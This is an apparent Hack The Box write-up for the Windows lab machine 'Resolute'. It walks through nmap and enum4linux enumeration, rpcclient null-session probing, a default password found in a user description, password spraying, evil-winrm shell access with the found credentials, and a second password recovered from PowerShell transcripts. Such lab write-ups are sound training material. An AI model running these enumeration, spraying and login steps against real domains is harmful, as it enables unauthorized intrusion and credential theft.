




# Hackthebox - Resolute - Windows

## Nmap

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -T4 -sC -sV -O -Pn -p- 10.10.10.169               
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-14 17:59 EST
Stats: 0:09:43 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 77.81% done; ETC: 18:11 (0:02:46 remaining)
Stats: 0:13:47 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Nmap scan report for 10.10.10.169
Host is up (0.035s latency).
Not shown: 65495 closed tcp ports (reset)
PORT      STATE    SERVICE      VERSION
53/tcp    open     domain       Simple DNS Plus
88/tcp    open     kerberos-sec Microsoft Windows Kerberos (server time: 2023-01-14 23:18:48Z)
135/tcp   open     msrpc        Microsoft Windows RPC
139/tcp   open     netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open     ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open     kpasswd5?
593/tcp   open     ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open     tcpwrapped
3268/tcp  open     ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped
5985/tcp  open     http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open     mc-nmf       .NET Message Framing
10615/tcp filtered unknown
11964/tcp filtered unknown
18261/tcp filtered unknown
19246/tcp filtered unknown
22459/tcp filtered unknown
23051/tcp filtered unknown
29488/tcp filtered unknown
30968/tcp filtered unknown
31488/tcp filtered unknown
31678/tcp filtered unknown
32421/tcp filtered unknown
34046/tcp filtered unknown
37317/tcp filtered unknown
47001/tcp open     http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open     msrpc        Microsoft Windows RPC
49665/tcp open     msrpc        Microsoft Windows RPC
49666/tcp open     msrpc        Microsoft Windows RPC
49667/tcp open     msrpc        Microsoft Windows RPC
49671/tcp open     msrpc        Microsoft Windows RPC
49676/tcp open     ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open     msrpc        Microsoft Windows RPC
49682/tcp open     msrpc        Microsoft Windows RPC
49925/tcp open     msrpc        Microsoft Windows RPC
50123/tcp filtered unknown
62834/tcp filtered unknown
63464/tcp filtered unknown
63808/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=1/14%OT=53%CT=1%CU=35732%PV=Y%DS=2%DC=I%G=Y%TM=63C336F
OS:D%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=10E%TI=I%CI=I%II=I%SS=S%TS=A
OS:)SEQ(SP=FF%GCD=1%ISR=10E%TI=I%CI=I%TS=A)OPS(O1=M539NW8ST11%O2=M539NW8ST1
OS:1%O3=M539NW8NNT11%O4=M539NW8ST11%O5=M539NW8ST11%O6=M539ST11)WIN(W1=2000%
OS:W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M539N
OS:W8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=
OS:0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T
OS:4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+
OS:%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y
OS:%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%
OS:RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h47m01s, deviation: 4h37m09s, median: 7m00s
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2023-01-14T15:19:53-08:00
| smb2-time: 
|   date: 2023-01-14T23:19:52
|_  start_date: 2023-01-14T23:06:02
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 839.18 seconds
```

## enu4linux

```bash
┌──(kali㉿kali)-[~]
└─$ enum4linux -a 10.10.10.169
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sat Jan 14 18:19:32 2023

 =========================================( Target Information )=========================================
                                                                                                                                                                                                                                             
Target ........... 10.10.10.169                                                                                                                                                                                                              
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ============================( Enumerating Workgroup/Domain on 10.10.10.169 )============================
                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                             
[E] Can't find workgroup/domain                                                                                                                                                                                                              
                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                             

 ================================( Nbtstat Information for 10.10.10.169 )================================
                                                                                                                                                                                                                                             
Looking up status of 10.10.10.169                                                                                                                                                                                                            
No reply from 10.10.10.169

 ===================================( Session Check on 10.10.10.169 )===================================
                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                             
[+] Server 10.10.10.169 allows sessions using username '', password ''                                                                                                                                                                       
                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                             
 ================================( Getting domain SID for 10.10.10.169 )================================
                                                                                                                                                                                                                                             
Domain Name: MEGABANK                                                                                                                                                                                                                        
Domain Sid: S-1-5-21-1392959593-3013219662-3596683436

[+] Host is part of a domain (not a workgroup)                                                                                                                                                                                               
                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                             
 ===================================( OS information on 10.10.10.169 )===================================
                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                             
[E] Can't get OS info with smbclient                                                                                                                                                                                                         
                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                             
[+] Got OS info for 10.10.10.169 from srvinfo:                                                                                                                                                                                               
do_cmd: Could not initialise srvsvc. Error was NT_STATUS_ACCESS_DENIED                                                                                                                                                                       


 =======================================( Users on 10.10.10.169 )=======================================
                                                                                                                                                                                                                                             
index: 0x10b0 RID: 0x19ca acb: 0x00000010 Account: abigail      Name: (null)    Desc: (null)                                                                                                                                                 
index: 0xfbc RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0x10b4 RID: 0x19ce acb: 0x00000010 Account: angela       Name: (null)    Desc: (null)
index: 0x10bc RID: 0x19d6 acb: 0x00000010 Account: annette      Name: (null)    Desc: (null)
index: 0x10bd RID: 0x19d7 acb: 0x00000010 Account: annika       Name: (null)    Desc: (null)
index: 0x10b9 RID: 0x19d3 acb: 0x00000010 Account: claire       Name: (null)    Desc: (null)
index: 0x10bf RID: 0x19d9 acb: 0x00000010 Account: claude       Name: (null)    Desc: (null)
index: 0xfbe RID: 0x1f7 acb: 0x00000215 Account: DefaultAccount Name: (null)    Desc: A user account managed by the system.
index: 0x10b5 RID: 0x19cf acb: 0x00000010 Account: felicia      Name: (null)    Desc: (null)
index: 0x10b3 RID: 0x19cd acb: 0x00000010 Account: fred Name: (null)    Desc: (null)
index: 0xfbd RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0x10b6 RID: 0x19d0 acb: 0x00000010 Account: gustavo      Name: (null)    Desc: (null)
index: 0xff4 RID: 0x1f6 acb: 0x00000011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0x10b1 RID: 0x19cb acb: 0x00000010 Account: marcus       Name: (null)    Desc: (null)
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko Name: Marko Novak       Desc: Account created. Password set to Welcome123!
index: 0x10c0 RID: 0x2775 acb: 0x00000010 Account: melanie      Name: (null)    Desc: (null)
index: 0x10c3 RID: 0x2778 acb: 0x00000010 Account: naoki        Name: (null)    Desc: (null)
index: 0x10ba RID: 0x19d4 acb: 0x00000010 Account: paulo        Name: (null)    Desc: (null)
index: 0x10be RID: 0x19d8 acb: 0x00000010 Account: per  Name: (null)    Desc: (null)
index: 0x10a3 RID: 0x451 acb: 0x00000210 Account: ryan  Name: Ryan Bertrand     Desc: (null)
index: 0x10b2 RID: 0x19cc acb: 0x00000010 Account: sally        Name: (null)    Desc: (null)
index: 0x10c2 RID: 0x2777 acb: 0x00000010 Account: simon        Name: (null)    Desc: (null)
index: 0x10bb RID: 0x19d5 acb: 0x00000010 Account: steve        Name: (null)    Desc: (null)
index: 0x10b8 RID: 0x19d2 acb: 0x00000010 Account: stevie       Name: (null)    Desc: (null)
index: 0x10af RID: 0x19c9 acb: 0x00000010 Account: sunita       Name: (null)    Desc: (null)
index: 0x10b7 RID: 0x19d1 acb: 0x00000010 Account: ulf  Name: (null)    Desc: (null)
index: 0x10c1 RID: 0x2776 acb: 0x00000010 Account: zach Name: (null)    Desc: (null)

user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]

 =================================( Share Enumeration on 10.10.10.169 )=================================
                                                                                                                                                                                                                                             
do_connect: Connection to 10.10.10.169 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)                                                                                                                                                      

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
Unable to connect with SMB1 -- no workgroup available

[+] Attempting to map shares on 10.10.10.169                                                                                                                                                                                                 
                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                             
 ============================( Password Policy Information for 10.10.10.169 )============================
                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                             

[+] Attaching to 10.10.10.169 using a NULL share

[+] Trying protocol 139/SMB...

        [!] Protocol failed: Cannot request session (Called Name:10.10.10.169)

[+] Trying protocol 445/SMB...

[+] Found domain(s):

        [+] MEGABANK
        [+] Builtin

[+] Password Info for Domain: MEGABANK

        [+] Minimum password length: 7
        [+] Password history length: 24
        [+] Maximum password age: Not Set
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: 1 day 4 minutes 
        [+] Reset Account Lockout Counter: 30 minutes 
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: Not Set


[+] Retieved partial password policy with rpcclient:                                                                                                                                                                                         
                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                             
Password Complexity: Disabled                                                                                                                                                                                                                
Minimum Password Length: 7


 =======================================( Groups on 10.10.10.169 )=======================================
                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                             
[+] Getting builtin groups:                                                                                                                                                                                                                  
                                                                                                                                                                                                                                             
group:[Account Operators] rid:[0x224]                                                                                                                                                                                                        
group:[Pre-Windows 2000 Compatible Access] rid:[0x22a]
group:[Incoming Forest Trust Builders] rid:[0x22d]
group:[Windows Authorization Access Group] rid:[0x230]
group:[Terminal Server License Servers] rid:[0x231]
group:[Administrators] rid:[0x220]
group:[Users] rid:[0x221]
group:[Guests] rid:[0x222]
group:[Print Operators] rid:[0x226]
group:[Backup Operators] rid:[0x227]
group:[Replicator] rid:[0x228]
group:[Remote Desktop Users] rid:[0x22b]
group:[Network Configuration Operators] rid:[0x22c]
group:[Performance Monitor Users] rid:[0x22e]
group:[Performance Log Users] rid:[0x22f]
group:[Distributed COM Users] rid:[0x232]
group:[IIS_IUSRS] rid:[0x238]
group:[Cryptographic Operators] rid:[0x239]
group:[Event Log Readers] rid:[0x23d]
group:[Certificate Service DCOM Access] rid:[0x23e]
group:[RDS Remote Access Servers] rid:[0x23f]
group:[RDS Endpoint Servers] rid:[0x240]
group:[RDS Management Servers] rid:[0x241]
group:[Hyper-V Administrators] rid:[0x242]
group:[Access Control Assistance Operators] rid:[0x243]
group:[Remote Management Users] rid:[0x244]
group:[System Managed Accounts Group] rid:[0x245]
group:[Storage Replica Administrators] rid:[0x246]
group:[Server Operators] rid:[0x225]

[+]  Getting builtin group memberships:                                                                                                                                                                                                      
                                                                                                                                                                                                                                             
Group: System Managed Accounts Group' (RID: 581) has member: Couldn't lookup SIDs                                                                                                                                                            
Group: Pre-Windows 2000 Compatible Access' (RID: 554) has member: Couldn't lookup SIDs
Group: Windows Authorization Access Group' (RID: 560) has member: Couldn't lookup SIDs
Group: IIS_IUSRS' (RID: 568) has member: Couldn't lookup SIDs
Group: Guests' (RID: 546) has member: Couldn't lookup SIDs
Group: Remote Management Users' (RID: 580) has member: Couldn't lookup SIDs
Group: Users' (RID: 545) has member: Couldn't lookup SIDs
Group: Administrators' (RID: 544) has member: Couldn't lookup SIDs

[+]  Getting local groups:                                                                                                                                                                                                                   
                                                                                                                                                                                                                                             
group:[Cert Publishers] rid:[0x205]                                                                                                                                                                                                          
group:[RAS and IAS Servers] rid:[0x229]
group:[Allowed RODC Password Replication Group] rid:[0x23b]
group:[Denied RODC Password Replication Group] rid:[0x23c]
group:[DnsAdmins] rid:[0x44d]

[+]  Getting local group memberships:                                                                                                                                                                                                        
                                                                                                                                                                                                                                             
Group: DnsAdmins' (RID: 1101) has member: Couldn't lookup SIDs                                                                                                                                                                               
Group: Denied RODC Password Replication Group' (RID: 572) has member: Couldn't lookup SIDs

[+]  Getting domain groups:                                                                                                                                                                                                                  
                                                                                                                                                                                                                                             
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]                                                                                                                                                                                  
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
group:[Contractors] rid:[0x44f]

[+]  Getting domain group memberships:                                                                                                                                                                                                       
                                                                                                                                                                                                                                             
Group: 'Domain Controllers' (RID: 516) has member: MEGABANK\RESOLUTE$                                                                                                                                                                        
Group: 'Schema Admins' (RID: 518) has member: MEGABANK\Administrator
Group: 'Domain Computers' (RID: 515) has member: MEGABANK\MS02$
Group: 'Domain Users' (RID: 513) has member: MEGABANK\Administrator
Group: 'Domain Users' (RID: 513) has member: MEGABANK\DefaultAccount
Group: 'Domain Users' (RID: 513) has member: MEGABANK\krbtgt
Group: 'Domain Users' (RID: 513) has member: MEGABANK\ryan
Group: 'Domain Users' (RID: 513) has member: MEGABANK\marko
Group: 'Domain Users' (RID: 513) has member: MEGABANK\sunita
Group: 'Domain Users' (RID: 513) has member: MEGABANK\abigail
Group: 'Domain Users' (RID: 513) has member: MEGABANK\marcus
Group: 'Domain Users' (RID: 513) has member: MEGABANK\sally
Group: 'Domain Users' (RID: 513) has member: MEGABANK\fred
Group: 'Domain Users' (RID: 513) has member: MEGABANK\angela
Group: 'Domain Users' (RID: 513) has member: MEGABANK\felicia
Group: 'Domain Users' (RID: 513) has member: MEGABANK\gustavo
Group: 'Domain Users' (RID: 513) has member: MEGABANK\ulf
Group: 'Domain Users' (RID: 513) has member: MEGABANK\stevie
Group: 'Domain Users' (RID: 513) has member: MEGABANK\claire
Group: 'Domain Users' (RID: 513) has member: MEGABANK\paulo
Group: 'Domain Users' (RID: 513) has member: MEGABANK\steve
Group: 'Domain Users' (RID: 513) has member: MEGABANK\annette
Group: 'Domain Users' (RID: 513) has member: MEGABANK\annika
Group: 'Domain Users' (RID: 513) has member: MEGABANK\per
Group: 'Domain Users' (RID: 513) has member: MEGABANK\claude
Group: 'Domain Users' (RID: 513) has member: MEGABANK\melanie
Group: 'Domain Users' (RID: 513) has member: MEGABANK\zach
Group: 'Domain Users' (RID: 513) has member: MEGABANK\simon
Group: 'Domain Users' (RID: 513) has member: MEGABANK\naoki
Group: 'Group Policy Creator Owners' (RID: 520) has member: MEGABANK\Administrator
Group: 'Domain Guests' (RID: 514) has member: MEGABANK\Guest
Group: 'Enterprise Admins' (RID: 519) has member: MEGABANK\Administrator
Group: 'Contractors' (RID: 1103) has member: MEGABANK\ryan
Group: 'Domain Admins' (RID: 512) has member: MEGABANK\Administrator

 ==================( Users on 10.10.10.169 via RID cycling (RIDS: 500-550,1000-1050) )==================
                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                             
[E] Couldn't get SID: NT_STATUS_ACCESS_DENIED.  RID cycling not possible.                                                                                                                                                                    
                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                             
 ===============================( Getting printer info for 10.10.10.169 )===============================
                                                                                                                                                                                                                                             
do_cmd: Could not initialise spoolss. Error was NT_STATUS_ACCESS_DENIED                                                                                                                                                                      


enum4linux complete on Sat Jan 14 18:20:47 2023
```

## rpcclient

- rpcclient is really powerful for this
- If we play around a little we can try to change password but it does not work. Except we get a different error depending on the user we try on

```bash
┌──(ldapsearch-ad)(kali㉿kali)-[~/Documents/hackthebox/resolute/ldapsearch-ad]
└─$ rpcclient -U "" -N -c "chgpasswd sally password1# password1#" 10.10.10.169                                                                                                                                                           1 ⨯
result was NT_STATUS_WRONG_PASSWORD
                                                                                                                                                                                                                                             
┌──(ldapsearch-ad)(kali㉿kali)-[~/Documents/hackthebox/resolute/ldapsearch-ad]
└─$ rpcclient -U "" -N -c "chgpasswd marko password1# password1#" 10.10.10.169                                                                                                                                                           1 ⨯
result was NT_STATUS_ACCESS_DENIED
                                                                                                                                                                                                                                             
┌──(ldapsearch-ad)(kali㉿kali)-[~/Documents/hackthebox/resolute/ldapsearch-ad]
└─$ rpcclient -U "" -N -c "chgpasswd paulo password1# password1#" 10.10.10.169                                                                                                                                                           1 ⨯
result was NT_STATUS_WRONG_PASSWORD
                                                                                                                                                                                                                                             
┌──(ldapsearch-ad)(kali㉿kali)-[~/Documents/hackthebox/resolute/ldapsearch-ad]
└─$ rpcclient -U "" -N -c "chgpasswd sunita password1# password1#" 10.10.10.169                                                                                                                                                          1 ⨯
result was NT_STATUS_WRONG_PASSWORD
                                                                                                                                                                                                                                             
┌──(ldapsearch-ad)(kali㉿kali)-[~/Documents/hackthebox/resolute/ldapsearch-ad]
└─$ rpcclient -U "" -N -c "chgpasswd abigail password1# password1#" 10.10.10.169                                                                                                                                                         1 ⨯
result was NT_STATUS_WRONG_PASSWORD
                                                                                                                                                                                                                                             
┌──(ldapsearch-ad)(kali㉿kali)-[~/Documents/hackthebox/resolute/ldapsearch-ad]
└─$ rpcclient -U "" -N -c "chgpasswd marcus password1# password1#" 10.10.10.169                                                                                                                                                          1 ⨯
result was NT_STATUS_WRONG_PASSWORD

```

- So let's query user marco

```bash
┌──(ldapsearch-ad)(kali㉿kali)-[~/Documents/hackthebox/resolute/ldapsearch-ad]
└─$ rpcclient -U "" -N -c "queryuser marko" 10.10.10.169                                                                                                                                                                                 1 ⨯
        User Name   :   marko
        Full Name   :   Marko Novak
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :   Account created. Password set to Welcome123!
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Wed, 31 Dec 1969 19:00:00 EST
        Logoff Time              :      Wed, 31 Dec 1969 19:00:00 EST
        Kickoff Time             :      Wed, 13 Sep 30828 22:48:05 EDT
        Password last set Time   :      Fri, 27 Sep 2019 09:17:15 EDT
        Password can change Time :      Sat, 28 Sep 2019 09:17:15 EDT
        Password must change Time:      Wed, 13 Sep 30828 22:48:05 EDT
        unknown_2[0..31]...
        user_rid :      0x457
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000000
        padding1[0..7]...
        logon_hrs[0..21]...

```

- We get a password. We can not connect with this user as marko.
- We might need to password spray as we have many users. Let's make a list of user from our enum4linux results. We get a valid user  
  

- we should try to get a shell with evil-winrm except mine is broken. No impacket module seem to work.
- I decided to install parrot os just to try it. So I now have a evil-winrm working.
- `evil-winrm -i 10.10.10.169 -u melanie -p 'Welcome123!'`. It works! We get a shell  
  
- I got lucky while looking around and found this folder `C:\PSTranscripts\20191203>`
- There we have a file with a password for Ryan in it
  
- `ryan Serv3r4Admin4cc123!`
- So we can try this password with evil-winrm as well
